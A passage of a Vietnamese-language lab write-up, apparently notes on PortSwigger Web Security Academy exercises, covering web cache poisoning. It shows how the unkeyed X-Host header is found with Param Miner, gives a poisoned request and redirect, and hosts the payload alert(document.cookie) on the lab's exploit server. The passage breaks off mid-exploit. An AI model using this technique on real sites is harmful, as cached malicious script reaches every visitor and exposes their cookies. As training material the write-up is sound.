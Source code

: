 ```http
HTTP/2 302 Found
Location: https://exploit-0adf00050466700582a178da0177004f.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 17
X-Cache: hit
Content-Length: 0
```
- Khi người dùng truy cập trang `home`, `src="/resources/js/tracking.js"` sẽ được tải 
- Vì đã bị **poison** => nhận về **redirect** đến `/resources/js/tracking.js` của **exploit server** => **XSS** thực thi

### Lab: Targeted web cache poisoning using an unknown header
#### Analysis
- Truy cập trang 
- Quan sát **response** => `Vary: User-Agent` => ứng dụng dùng header `User-Agent` để làm **cache key** => Cần phải lấy được `User-Agent` của **victim** để **poison cache**
- Quan sát `/resources/js/loadComments.js` 
    - Khi truy cập 1 bài viết bất kì dữ liệu được tải xuống và được làm sạch **(sanitize)** bởi **DOMPurify**
    - Ứng dụng chỉ cho phép: `ALLOWED_TAGS: ['b', 'i', 'u', 'img', 'a'], ALLOWED_ATTR: ['src', 'href']` trong **body** của **comment**
- Quan sát ta thấy **script** có **src** đến `/resources/js/tracking.js`

```html
<script type="text/javascript" src="//0a7300210448d5c18022036c007b0063.h1-web-security-academy.net/resources/js/tracking.js"></script>
```
- Sử dụng **Param Miner** để quét
    - **Post** 1 **comment** bất kì => gửi **request** đến **Repeater**
    - Chuột phải > **Extension** > **Param Miner** > **Guess headers** để đoán **header**
    - **Extensions** > **Installed** > **Param Miner** > **Output** để quan sát kết quả
    - Ta thấy có header `X-Host` có ảnh hưởng.
- Gửi request có header `X-Host` 

```http
GET /post?postId=1 HTTP/1.1
Host: 0a7300210448d5c18022036c007b0063.h1-web-security-academy.net
...
X-Host: xnxx.com
```

```html
<script type="text/javascript" src="//xnxx.com/resources/js/tracking.js"></script>
```
- Ứng dụng sử dụng **header** `X-Host` nào đó để làm **absolute URL** cho **JS**

#### Exploit
- Thêm **payload** vào **exloit server** và đổi tên thành `/resources/js/tracking.js`

```js
alert(document.cookie)
```
- **Post comment** với **body** sau
